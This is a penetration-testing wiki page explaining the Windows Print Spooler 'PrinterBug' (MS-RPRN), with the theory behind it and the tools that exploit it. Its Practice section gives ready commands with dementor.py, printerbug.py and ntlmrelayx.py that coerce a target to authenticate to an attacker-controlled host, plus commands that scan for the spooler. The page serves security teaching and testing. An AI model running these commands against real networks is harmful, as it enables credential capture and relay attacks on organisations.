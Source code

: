 # MS-RPRN abuse \(PrinterBug\)

## Theory

Microsoft’s Print Spooler is a service handling the print jobs and other various taks related to printing. An attacker controlling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments \([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)\).

The "specific call" mentionned above is the `RpcRemoteFindFirstPrinterChangeNotificationEx` notification method is part of the MS-RPRN protocol. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

{% hint style="info" %}
The attacker needs a foothold on the domain \(i.e. compromised account\) for this attack to work since the coercition is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) \(Powershell\) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) \(Python\).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) \(Python\), [dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) \(Python\), the adapted original .NET code \([here](https://github.com/leechristensen/SpoolSample)\).

{% tabs %}
{% tab title="dementor" %}
Trigger the spooler service

```bash
dementor.py -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD $ATTACKER_IP $TARGET
```
{% endtab %}

{% tab title="printerbug" %}
Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```text

```
{% endtab %}

{% tab title="ntlmrelayx" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../lm-and-ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy.

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains dementor.py -d $DOMAIN -u $DOMAIN_USER $ATTACKER_IP $TARGET
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: the coerced NTLM authentication will be made through SMB. This is important because it restricts the possibilites of [NTLM relay](../lm-and-ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMBv2 to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}



